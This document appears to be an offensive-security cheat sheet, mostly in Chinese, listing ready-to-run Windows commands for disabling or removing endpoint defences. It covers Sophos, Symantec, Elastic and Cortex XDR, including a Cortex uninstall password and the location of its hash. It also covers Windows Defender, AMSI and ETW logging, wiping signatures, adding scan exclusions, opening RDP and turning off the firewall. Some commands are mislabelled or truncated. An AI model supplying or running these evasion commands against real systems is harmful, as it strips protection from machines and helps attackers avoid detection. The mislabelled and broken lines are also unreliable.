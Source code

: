  #### Sophos
	https://github.com/ayeskatalas/Sophos-Removal-Tool/
 #### Symantec
	https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html
 #### Elastic EDR
	https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html
	  cd "C:\Program Files\Elastic\Agent\"
	  PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
	  Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
	  Elastic Agent has been uninstalled.
 #### Cortex XDR
	https://mrd0x.com/cortex-xdr-analysis-and-bypass/
	卸载密码：Password1
	Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
	Look for PasswordHash, PasswordSalt or password, salt strings.

	禁用Cortex：将DLL改成随机值，然后重启
	reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

	启动时禁用，重启生效
	cytool.exe startup disable

	禁用对 Cortex XDR 文件、进程、注册表和服务的保护
	cytool.exe protect disable

	禁用 Cortex XDR（即使启用了篡改保护）
	cytool.exe runtime disable

	禁用事件收集
	cytool.exe event_collection disable
 #### 禁用Windows Defender
	禁用Defender
	sc config WinDefend start= disabled
	sc stop WinDefend
	Set-MpPreference -DisableRealtimeMonitoring $true

	排除进程/位置
	Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
	Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
	Add-MpPreference -ExclusionPath C:\Video, C:\install

	禁用扫描所有下载的文件和附件，禁用 AMSI
	PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
	PS C:\> Set-MpPreference -DisableIOAVProtection $true
	禁用 AMSI (设置为0为启动)
	PS C:\> Set-MpPreference -DisableScriptScanning 1 

	清零 ETW 会话对应的注册表值
	reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

	擦除当前存储的定义
	MpCmdRun.exe 的位置：C:\ProgramData\Microsoft\Windows Defender\Platform\
	MpCmdRun.exe -RemoveDefinitions -All

	删除签名
	PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
	PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

	禁用 Windows Defender 安全中心
	reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

	禁用实时保护
	reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
	reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
 #### 防火墙
	允许进站
	如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许3389端口，命令如下:
	>netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
	>netsh firewall set portopening TCP 3389 ENABLE
	防火墙关闭
	>netsh firewall set opmode mode=disable
	>netsh advfirewall show allprofiles查看状态
	>netsh advfirewall set allprofiles state off 
	>sc stop windefend
	>sc delete windefend
	PS> Set-MpPreference -DisableRealtimeMonitoring 1
	PS> Set-MpPreference -Disablearchivescanning $true
	IP白名单
	>New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress 10.10.10.10
	列出防火墙的阻止端口
	>$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
	禁用防火墙
	在 Windows 7 上通过 cmd 禁用防火墙
	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f

	在 Windows 7 上通过 Powershell 禁用防火墙
	powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`

	通过 cmd 在任何windows上禁用防火墙
	netsh firewall set opmode disable
	netsh Advfirewall set allprofiles state off